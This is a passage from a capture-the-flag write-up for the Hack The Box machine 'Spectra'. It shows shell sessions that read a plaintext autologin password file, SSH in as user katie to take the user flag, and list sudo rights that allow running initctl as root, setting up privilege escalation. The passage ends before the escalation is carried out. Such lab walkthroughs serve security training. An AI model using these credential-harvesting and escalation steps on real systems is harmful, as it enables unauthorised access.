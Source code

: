 ```bash
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptbash-4.3$ 
```
When reading the above file, we can find out there is a password file at **/etc/autologin**.

```bash
bash-4.3$ cd /etc/autologin
cd /etc/autologin
bash-4.3$ ls
ls
passwd
bash-4.3$ ls -la
ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  3 16:43 .
drwxr-xr-x 63 root root 4096 Feb 11 10:24 ..
-rw-r--r--  1 root root   19 Feb  3 16:43 passwd
bash-4.3$ cat passwd
cat passwd
SummerHereWeCo***** 
```
Now we have the password of user “katie”, we can SSH to katie. Then we can get the user flag.

```bash
┌─[visith@parrot]─[~/CTF/htb/spectra]
└──╼ $ssh katie@10.10.10.229
The authenticity of host '10.10.10.229 (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.229' (RSA) to the list of known hosts.
Password: 
-bash-4.3$ whoami
katie
-bash-4.3$ ls
log  user.txt
-bash-4.3$ cat user.txt
e89d27*******************
```
After run any of scripts like linpeas.sh . I use **sudo -l** to see what we got here.

```bash
bash-4.3$ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```
we can come across that this user can execute **/sbin/initctl** as root. I just Googled about it and came across its functionality.
